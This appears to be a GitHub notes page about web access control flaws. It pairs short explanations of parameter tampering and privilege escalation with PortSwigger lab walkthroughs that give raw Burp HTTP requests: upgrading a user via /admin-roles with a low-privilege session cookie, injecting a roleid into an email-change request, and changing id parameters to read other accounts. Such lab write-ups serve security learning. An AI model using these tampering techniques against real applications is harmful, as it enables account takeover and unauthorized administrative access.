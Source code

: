 ## Access control vulnerabilities
Access control (or authorization) is the application of constraints on who (or what) 
can perform attempted actions or access resources that they have requested. 
In the context of web applications, access control is dependent on authentication and session management: 

## 1. Parameter-based access control methods
Some applications determine the user's access rights or role at login, and then store this information in a user-controllable location,
such as a hidden field, cookie, or preset query string parameter. 
The application makes subsequent access control decisions based on the submitted value

## For Example

    https://insecure-website.com/login/home.jsp?admin=true
    https://insecure-website.com/login/home.jsp?role=1

This approach is fundamentally insecure because a user can simply modify the value and gain access to functionality to which they are not authorized,
such as administrative functions. 

## 2. Horizontal privilege escalation
Horizontal privilege escalation arises when a user is able to gain access to resources belonging to another user, instead of their own resources of that type. For example, if an employee should only be able to access their own employment and payroll records, but can in fact also access the records of other employees, then this is horizontal privilege escalation. 

 Horizontal privilege escalation attacks may use similar types of exploit methods to vertical privilege escalation. 
 ## For example
 a user might ordinarily access their own account page using a URL like the following: 

    https://insecure-website.com/myaccount?id=123
Now, if an attacker modifies the id parameter value to that of another user, then the attacker might gain access to another user's account page, with associated data and functions. 

## 3. Horizontal to vertical privilege escalation
Often, a horizontal privilege escalation attack can be turned into a vertical privilege escalation, by compromising a more privileged user.
For example, a horizontal escalation might allow an attacker to reset or capture the password belonging to another user.
If the attacker targets an administrative user and compromises their account, then they can gain administrative access and so perform vertical privilege escalation.

## For Example
an attacker might be able to gain access to another user's account page using the parameter tampering technique already described for horizontal privilege escalation:

    https://insecure-website.com/myaccount?id=456
    
If the target user is an application administrator, then the attacker will gain access to an administrative account page. This page might disclose the administrator's password or provide a means of changing it, or might provide direct access to privileged functionality. 
    
    
## LAB
 
 ## 1. STEP
  Asif Is Upgrade User 
  Login in the login page and Caputer The Request In Burp Repeter and  analyze the Request
    
    POST /admin-roles HTTP/1.1
    Host: acca1f871ff59314c0b1124d00580002.web-security-academy.net
    Cookie: session=dhb7aRHg7lEnRb2uRogyfXu2onwMp2jY
    User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
    Accept-Language: en-US,en;q=0.5
    Accept-Encoding: gzip, deflate
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 45
    Origin: https://acca1f871ff59314c0b1124d00580002.web-security-academy.net
    Referer: https://acca1f871ff59314c0b1124d00580002.web-security-academy.net/admin-roles
    Upgrade-Insecure-Requests: 1
    Sec-Fetch-Dest: document
    Sec-Fetch-Mode: navigate
    Sec-Fetch-Site: same-origin
    Sec-Fetch-User: ?1
    Te: trailers
    Connection: close

    action=upgrade&confirmed=true&username=asif
    

 ## 2.STEP
 Khan Is Local user 
 Login in the login page and Caputer The Request In Burp Repeter and  analyze the Request 
 
     GET /my-account?id=khan HTTP/1.1
     Host: acca1f871ff59314c0b1124d00580002.web-security-academy.net
     Cookie: session=ai64aRHg7lEnRb2uadg95Xu2onw98v9f
     User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
     Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
     Accept-Language: en-US,en;q=0.5
     Accept-Encoding: gzip, deflate
     Referer: https://acca1f871ff59314c0b1124d00580002.web-security-academy.net/my-account
     Upgrade-Insecure-Requests: 1
     Sec-Fetch-Dest: document
     Sec-Fetch-Mode: navigate
    Sec-Fetch-Site: same-origin
    Sec-Fetch-User: ?1
    Te: trailers
    Connection: close

 
  ## 3.STEP 
  First some Changing Copy Local user Cookie: Session and past the Upgrade Request and Secand is Change the Nmae just Example 
  Upgrade user name is Asif to change and type khan and send the Request Server and Local user is Upgrade This vulnerabilities
  IS Access-control-vulnerabilities
 
    POST /admin-roles HTTP/1.1
    Host: acca1f871ff59314c0b1124d00580002.web-security-academy.net
    Cookie: session=dhb7aRHg7lEnRb2uRogyfXu2onwMp2jY
    User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
    Accept-Language: en-US,en;q=0.5
    Accept-Encoding: gzip, deflate
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 45
    Origin: https://acca1f871ff59314c0b1124d00580002.web-security-academy.net
    Referer: https://acca1f871ff59314c0b1124d00580002.web-security-academy.net/admin-roles
    Upgrade-Insecure-Requests: 1
    Sec-Fetch-Dest: document
    Sec-Fetch-Mode: navigate
    Sec-Fetch-Site: same-origin
    Sec-Fetch-User: ?1
    Te: trailers
    Connection: close

    action=upgrade&confirmed=true&username=asif
    
 
 
 ## 1. User role controlled by request parameter
 
 In Burp Proxy, turn interception on and enable response interception
 
 Complete and submit the login page, and forward the resulting request in Burp.
 
 Observe that the response sets the cookie Admin=false. Change it to Admin=true. 
 
 Acess The directory
 
 
 ## 2. User role can be modified in user profile
 
 Request Sand to repeter 
 
 Observe that the response contains your role ID.
 
 Send the email submission request to Burp Repeater, add "roleid":2 into the JSON in the request body, and resend it. 
 
 Observe that the response shows your roleid has changed to 2.

    POST /my-account/change-email HTTP/1.1
    Host: 0af600bd034d16ccc01622bd007500ff.web-security-academy.net
    Cookie: session=BtwJhdFHvFMf80vO1cbyBAFzL6fR2Ybb
    User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
    Accept: */*
    Accept-Language: en-US,en;q=0.5
    Accept-Encoding: gzip, deflate
    Content-Type: text/plain;charset=UTF-8
    Content-Length: 37
    Origin: https://0af600bd034d16ccc01622bd007500ff.web-security-academy.net
    Referer: https://0af600bd034d16ccc01622bd007500ff.web-security-academy.net/my-account?id=wiener
    Sec-Fetch-Dest: empty
    Sec-Fetch-Mode: cors
    Sec-Fetch-Site: same-origin
    Te: trailers
    Connection: close

    {"email":"asif@khan.com","roleid":2}



 ## 3. User ID controlled by request parameter 
 
  Log in using the supplied credentials and go to your account page.
  
  Note that the URL contains your username in the "id" parameter. 
  
  Send the request to Burp Repeater.
  
  Change the "id" parameter and sand the server accept the request, This is vulnerability
  
   GET /my-account?id=asif HTTP/1.1
Host: 0a3f0064038d99a1c0d1738b007b0085.web-security-academy.net
Cookie: session=NN4wD7kCq0mi8vnkAdVwEg9TkEMZYlSd
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: https://0a3f0064038d99a1c0d1738b007b0085.web-security-academy.net/my-account
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Te: trailers
Connection: close





